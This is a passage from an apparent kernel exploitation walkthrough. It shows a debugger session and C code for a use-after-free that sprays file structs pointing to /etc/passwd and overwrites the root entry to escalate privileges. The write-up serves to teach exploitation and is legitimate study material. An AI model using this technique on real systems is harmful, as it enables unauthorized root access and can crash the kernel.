 ```
   52 error:
   53         fput(file);
 ► 54         return -EBADF;
   55 }
───────────────────────────
pwndbg> p file->f_count
$4 = {
  counter = 0
}
```

### `/etc/passwd` spraying
Now that the _file_ struct has been released, we need to fill this freed space with a _file_ struct pointing to a critical file. In this case, we spray with _file_ structs pointing to `/etc/passwd`.  

```c
	// Spray to fill the previously freed file struct with a /etc/passwd file struct. 
	puts("[+] Spraying file structs pointing to /etc/passwd");
	for(int i = 0; i < 512; i++) {
		fd_spray[i] = open("/etc/passwd", O_RDONLY);
       		if (fd_spray[i] < 0) {
                	err(0, "[-] Failed to spray /etc/passwd");
        	}
	}
```

By the time a _file_ struct fills the previously freed space, we will be able to read and write `/etc/passwd` as these are the permissions we set when we first mapped the temporary file into memory.

To check if the spraying has successfully finished, we can print the memory region we mapped at the beginning of the exploit. If the printed output is the content of `/etc/passwd`, the spraying has successfully finished. Otherwise, we'll see the content of the placeholder we set at the beginning.

```c
	// Checking for successful UAF.
	puts("[+] Checking for successful UAF. Content should be from /etc/passwd:");
	fputs(ptr, stdout);
```

### Overwrite `/etc/passwd`
After the last check is completed, we can overwrite the first line of `/etc/passwd` with our custom value:
```c
	// Overwriting /etc/passwd root entry.
	puts("[+] Overwriting /etc/passwd root entry. Content should have been modified:");
	memcpy(ptr, privesc, strlen(privesc));
	fputs(ptr, stdout);
```

### Avoid kernel memory problems
At this moment, we have successfully completed the UAF exploitation by writing to an arbitrary file. However, during this process, we have messed up with the kernel memory, and this leads to kernel panic after running `su root` and some other commands.

